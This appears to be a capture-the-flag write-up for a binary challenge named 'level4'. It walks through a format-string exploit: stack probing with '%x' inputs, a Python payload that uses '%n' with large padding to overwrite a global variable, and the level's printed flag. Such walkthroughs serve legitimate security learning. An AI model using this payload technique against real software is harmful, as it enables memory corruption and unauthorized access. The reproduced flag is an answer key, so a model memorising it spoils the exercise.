 ## level4
The `level4` is almost the same as `level3`, a very basic main that call a function called `n()` and returns
```
0x080484a7 <+0>:	push   ebp
0x080484a8 <+1>:	mov    ebp,esp
0x080484aa <+3>:	and    esp,0xfffffff0
0x080484ad <+6>:	call   0x8048457 <n>
0x080484b2 <+11>:	leave
0x080484b3 <+12>:	ret
```
We will be usding the same strategy from `level3` __*format string exploit*__, bear in mind that this time we will need to set a variable to a very higher value, in `level3` was just *64* while in `level4` the value is `0x1025544 (16930116)` so we will need to modify a bit our strategy, but if I remember well when I coded my own version of `printf()` *(I would have never imagined this project would help me in this way :p)* the `printf()` function has an option for `padding` and that's what we're  gonna use here to generate those extra `16930112` characters *(Yeah I'm not kidding)*, let's start to find the __offset__ for our __address__
```
~$ echo "AAAA %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708
~$ echo "AAAA %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500
~$ echo "AAAA %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0
~$ echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 41414141
```
A little bit harder but we could find it, checking the position we know our __address__ is being set on the stack at postion 12th so we get it done `%12\$n` and the address we have it from the disassembled code<br>
`x0804848d <+54>:	mov    eax,ds:0x8049810`<br> Now we just need to build the *format string specifier*. <br>
`(python -c "print('\x10\x98\x04\x08' + 'A' + '%16930111c' + '%12\$n')"; cat -) | ./level4`
[...]
after some 16930111 space later
`0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
